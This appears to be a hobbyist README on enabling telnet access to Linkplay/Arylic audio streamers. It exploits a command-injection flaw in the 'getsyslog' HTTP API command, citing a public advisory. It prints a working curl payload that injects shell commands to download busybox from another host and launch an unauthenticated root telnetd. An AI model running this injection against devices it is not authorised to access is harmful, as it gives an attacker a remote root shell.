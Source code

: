 # Enable telnetd
To enable telnetd on these devices, a security vulnerability had to be exploited. The first version on my devices was 4.2.8020 from 2020/02/20 (20th of Feb 2020) that still had a vulnerability in their code: internally a "sprintf" function was used to prepare a Linux CLI commands. That function was using an IP address as an input, but the input could be extended with ";" and additional commands to download and install a telnetd.

The command that has this vulnerability is **_"getsyslog"_**, see https://developer.arylic.com/httpapi/#get-system-log and https://labs.withsecure.com/advisories/linkplay-firmware-wanlan-remote-code-execution. The command has an option to add an IP address from a slave device, e.g. **_"getsyslog:ip:10.1.1.90"_**, so a CLI command is executed on the device to retrieve the system log from the slave device that includes the IP address. Instead of just having an IP address as a parameter, that CLI command can also include a ";" and a second CLI command. You do not even have to provide an IP address, but can append the ";" and second command directly after the ":ip:". 

If your Linkplay device is running a newer version, you may have to downgrade the firmware first, see [Downgrade Firmware](/Downgrade.md).

The following code snippets are using the IP address 10.1.1.58 for my Arylic Up2Stream device and 10.1.1.22 for a web server running on my local MacMini. You need to create the subdirectories on your web server and copy the busybox binary to it. On my Mac mini it's the directory ***/Library/WebServer/Documents/linkplay*** that is accessible as http://10.1.1.22/linkplay. To organize all the files on my web server I've created several subdirectories below to store the binary file (***.../linkplay/a31/bin/busybox***).
```
curl "http://10.1.1.58/httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;mkdir+/tmp/bin;wget+-O+/tmp/bin/busybox+-T+5+http://10.1.1.22/linkplay/a31/bin/busybox+-q;chmod+555+/tmp/bin/busybox;ln+-s/tmp/bin/busybox+/tmp/bin/telnetd;/tmp/bin/telnetd+telnetd+-l/bin/ash;"
```
The command above is executing the following commands on the device in addition to the "getsyslog" request:
```
mkdir /tmp/bin
wget -O /tmp/bin/busybox -T 5 http://10.1.1.22/linkplay/a31/bin/busybox -q;
chmod 555 /tmp/bin/busybox;
ln -s /tmp/bin/busybox /tmp/bin/telnetd;
/tmp/bin/telnetd telnetd -l/bin/ash;
```
> **Note:**
> Don't forget to add a ";" at the end inside the quotes. Replace all spaces with "+" if you want to create your own URL with curl.

The tool **_"busybox"_** is like a swiss army knife and combines a lot of CLI commands in a single binary file. That file was stripped down in the version that was running on my Linplay device and does not include a telnetd anymore. Therefore you have to get a full version from somewhere. 

A version of busybox is provided here (see binary directory). That binary is compatible with the SoC that is running on the Linkplay A31 module, see [Hardware and Firmware](/Hardware.md) for details about the hardware.

There is an OpenWRT archive available where you can get precompiled binaries for almost all utilities you may need. See section [Firmware](/Hardware.md#firmware) for details.
